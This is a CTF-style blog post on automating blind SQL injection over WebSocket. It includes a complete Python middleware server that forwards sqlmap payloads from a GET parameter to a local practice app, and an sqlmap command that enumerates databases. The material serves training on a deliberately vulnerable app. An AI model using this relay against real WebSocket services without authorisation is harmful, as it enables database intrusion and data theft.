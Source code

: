 ```yaml
---
layout: post
title:  "Automating Blind SQL injection over WebSocket"
date:   2021-04-02
categories: CTF
thumbnail: /img/websocket.webp
tags: nodejs,websocket,sqli,sqlmap,docker
---
```

Recently I have come across several CTF challenges on SQL injection over WebSocket. So I decided to build a vulnerable WebSocket web app for others to practice blind SQL injection over WebSocket. I spent a day building this on NodeJS from scratch which helped me better understand WebSocket implementations. I'll also share a nifty trick to perform SQL injection over WebSocket with SQLMap using an approach similar to tamper scripts.

I have pushed the vulnerable app on GitHub and added few exercises, feel free to complete those to bump your skills on blind SQLi and automation! It's built on docker so you can just clone the repository and spin it up right away, find it here: 

[https://github.com/rayhan0x01/nodejs-websocket-sqli](https://github.com/rayhan0x01/nodejs-websocket-sqli)

Now coming to the second part of the post, I highly recommend one to practice and automate the blind SQL injection using Python/Ruby/PHP first for practice and better understanding but I also wanted to use SQLMap and thought of a tamper script approach. If you didn't know, the main difference between HTTP and WebSocket is that HTTP is built on a request-response model whereas WebSocket is like a Socket connection where both client and server can send data anytime asynchronously. So you can't repeat the requests made in WebSocket as you would normally do for HTTP Requests in BurpSuite.

I found that SQLMap supports the &nbsp;`ws://`&nbsp; protocol but there was very little to no documentation about it and if there is some sort of dynamic authentication token that needs to be received and sent on each request, it won't be possible to perform SQLi directly via SQLMap like &nbsp; `sqlmap -u "ws://link/" ...`&nbsp;.

So the basic idea to solve this is: 

1. have an HTTP Server script that will receive the SQLMap payload via GET parameter.
2. format the payload if needed (for example wrap it in a JSON format)
3. create a WebSocket connection to actual target, receive response and extract any token if needed.
4. Send SQLi payload and receive Output from WebSocket.
5. Display the output as response

It is similar to SQLMap tamper scripts but in this case the script will act as a standalone server vulnerable to SQLi on GET parameter.
Here is the full Python3 script created for the vulnerable web app I shared previously:

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

You will need to install the [websocket-client](https://pypi.org/project/websocket-client/) package via pip/pip3 for Python3.

The script will create an HTTP Server on port 8081 and extract first GET parameter value, send the value to &nbsp;`send_ws`&nbsp; function where it will be formated as a JSON message as required by the vulnerable web app. It will then establish a WebSocket connection to the server endpoint mentioned in &nbsp;`ws_server`&nbsp; variable and send the payload. 

Notice WebSocket is asynchronous and we are handling it here synchronously by opening a new connection every time for a payload.

If you try custom automating the SQLi via script, you can use message fingerprinting and taking different actions based on the message received on on_* event functions, use global variables, dictionaries to sync data between functions to perform full SQLi over single WebSocket connection. Or do it synchronously by opening new connection each time, but surely the first approach is more challenging and fun. 

Now to test out our middle-ware server in action, I'll first host the vulnerable web app and launch the above script in a terminal. Then execute SQLMap against the middle-ware server hosted on port 8081:

```sh
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

![sqlmap-ws-middleware](/img/sqlmap_ws.png#center)

You can also build the script in PHP and host it in a server that will save the trouble of creating a server from scratch.

That was it for this one, hope you found this useful. Until next time, stay safe!